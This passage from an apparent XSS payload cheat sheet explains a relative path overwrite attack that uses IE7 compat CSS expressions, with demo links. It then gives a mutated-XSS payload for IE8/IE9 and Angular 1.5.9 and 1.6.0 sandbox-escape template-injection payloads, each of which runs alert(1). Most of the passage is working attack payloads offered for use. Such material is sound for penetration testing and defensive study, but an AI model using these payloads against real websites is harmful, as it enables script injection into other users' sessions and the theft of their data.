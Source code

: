 Explanation of the vulnerability
```
The Meta element forces IE’s document mode into IE7 compat which is required to execute expressions. Our persistent text {}*{xss:expression(open(alert(1)))is included on the page and in a realistic scenario it would be a profile page or maybe a shared status update which is viewable by other users. We use “open” to prevent client side DoS with repeated executions of alert.

A simple request of “rpo.php/” makes the relative style load the page itself as a style sheet. The actual request is “/labs/xss_horror_show/chapter7/rpo.php/styles.css” the browser thinks there’s another directory but the actual request is being sent to the document and that in essence is how an RPO attack works.

Demo 1 at http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo.php
Demo 2 at http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo2.php/fakedirectory/fakedirectory2/fakedirectory3
MultiBrowser : http://challenge.hackvertor.co.uk/xss_horror_show/chapter7/rpo3.php


From : http://www.thespanner.co.uk/2014/03/21/rpo/
```


## Mutated XSS for Browser IE8/IE9
```
<listing id=x>&lt;img src=1 onerror=alert(1)&gt;</listing>
<script>alert(document.getElementById('x').innerHTML)</script>
```
 IE will read and write (decode) HTML multiple time and attackers XSS payload will mutate and execute.


## XSS in Angular
Angular 1.6.0
```
{{0[a='constructor'][a]('alert(1)')()}}
```

Angular 1.5.9
```
{{
    c=''.sub.call;b=''.sub.bind;a=''.sub.apply;
    c.$apply=$apply;c.$eval=b;op=$root.$$phase;
    $root.$$phase=null;od=$root.$digest;$root.$digest=({}).toString;
    C=c.$apply(c);$root.$$phase=op;$root.$digest=od;
    B=C(b,c,b);$evalAsync("
    astNode=pop();astNode.type='UnaryExpression';
    astNode.operator='(window.X?void0:(window.X=true,alert(1)))+';
    astNode.argument={type:'Identifier',name:'foo'};
    ");
    m1=B($$asyncQueue.pop().expression,null,$root);
    m2=B(C,null,m1);[].push.apply=m2;a=''.sub;
    $eval('a(b.c)');[].push.apply=a;
}}
```

